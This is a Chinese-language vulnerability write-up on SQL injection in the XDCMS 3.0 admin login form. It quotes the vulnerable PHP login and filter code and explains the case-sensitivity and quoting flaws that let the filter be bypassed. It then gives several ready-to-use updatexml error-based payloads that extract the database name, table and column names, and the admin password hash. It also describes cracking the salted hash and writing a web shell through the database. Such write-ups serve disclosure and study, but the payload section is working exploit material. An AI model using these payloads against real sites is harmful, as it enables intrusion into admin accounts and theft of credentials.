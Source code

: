 XDCMS 3.0 后台登录窗sql注入漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 3.0

三、复现过程
------------

漏洞链

    system/modules/xdcms/login.php
    public function check(){
            
            $username = safe_html($_POST['username']);
            $password = safe_html($_POST['password']);
            $verifycode = safe_html($_POST['verifycode']);

            if(empty($username)||empty($password)){
                showmsg(C('user_pass_empty'),'-1');
            }
            
            if($verifycode!=$_SESSION['code']){
                showmsg(C('verifycode_error'),'-1');
            }
            
            $sql="select * from ".DB_PRE."admin where `username`='$username'";
            if($this->mysql->num_rows($sql)==0){
                showmsg(C('user_not_exist'),'-1');
            }
            
            $rs=$this->mysql->get_one($sql);
            $password=password($password,$rs['encrypt']);
            if($password!=$rs['password']){
                showmsg(C('password_error'),'-1');
            }
            
            if($rs['is_lock']==1){
                showmsg(C('user_lock'),'-1');
            }
            
            $logins=$rs["logins"]+1;
            $ip=safe_replace(safe_html(getip()));
            $this->mysql->db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");
            
            $_SESSION['admin']=$rs['username'];
            $_SESSION['admin_id']=$rs['id'];
            $_SESSION['groupid']=$rs['groupid'];
            unset($rs);
            showmsg(C("login_success"),"index.php?m=xdcms&c=index");
        }
    safe_html()
    function safe_html($str){
        if(empty($str)){return;}
        $str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
    |outfile/','',$str);
        return htmlspecialchars($str);
    }

safe\_html()使用preg\_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

    #爆库
    username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
    //updatexml一次显示32位字符，需要偏转
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
    #爆内容
    username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button=

![](resource/XDCMS3.0后台登录窗sql注入漏洞/media/rId24.jpg)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

    function password($password, $encrypt='') {
        $pwd = array();
        $pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
        $password_md5=md5(trim($password));
        $nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
        $pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
        return $encrypt ? $pwd['password'] : $pwd;
    }
